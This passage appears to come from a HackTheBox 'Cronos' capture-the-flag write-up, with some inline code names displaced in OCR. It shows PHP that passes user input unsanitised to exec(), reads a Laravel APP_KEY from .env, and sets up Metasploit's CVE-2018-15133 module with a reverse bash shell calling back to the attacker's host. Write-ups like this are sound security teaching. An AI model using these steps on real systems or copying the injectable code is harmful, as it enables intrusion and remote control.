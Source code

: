     <?php
       include('session.php');
    
    if($_SERVER["REQUEST_METHOD"] == "POST") {
            //print_r($_POST);
            $command = $_POST['command'];
            $host = $_POST['host'];
            exec($command.' '.$host, $output, $return);
            //print_r($output);
    }
    ?>
    

IT takes the two inputs, concatenates them together just as I observed, and passes the string to . The output is stored in , and printed to the page later.`exec``$output`

### Laravel and CVE-2018-15133

The only Laravel CVE that seemed useful here was [CVE-2018-15133](https://github.com/kozmic/laravel-poc-CVE-2018-15133), which was a PHP deserialization bug. There is also a Metasploit exploit for this vulnerability, . This bug was released well after Cronos was retired let alone created, so it’s clearly not an intended path. Still, I wanted to play with it.`unix/http/laravel_token_unserialize_exec`

In order to pull this off, I needed the . I didn’t find a way to leak this during the box, but as root (or even www-data), I can grab it. It is stored in the file in the directory.`APP_KEY``.env``/var/www/laravel`

    root@cronos:/var/www/laravel# cat .env | grep APP_KEY
    APP_KEY=base64:+fUFGL45d1YZYlSTc0Sm71wPzJejQN/K6s9bHHihdYE=
    PUSHER_APP_KEY=
    

Using the Metasploit exploit, I set the key and the other options:

    msf5 exploit(unix/http/laravel_token_unserialize_exec) > options
    
    Module options (exploit/unix/http/laravel_token_unserialize_exec):
    
       Name       Current Setting                               Required  Description
       ----       ---------------                               --------  -----------
       APP_KEY    +fUFGL45d1YZYlSTc0Sm71wPzJejQN/K6s9bHHihdYE=  no        The base64 encoded APP_KEY string from the .env file
       Proxies                                                  no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS     10.10.10.13                                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT      80                                            yes       The target port (TCP)
       SSL        false                                         no        Negotiate SSL/TLS for outgoing connections
       TARGETURI  /                                             yes       Path to target webapp
       VHOST      www.cronos.htb                                no        HTTP server virtual host
    
    
    Payload options (cmd/unix/reverse_bash):
    
       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  10.10.14.24      yes       The listen address (an interface may be specified)
       LPORT  443              yes       The listen port
    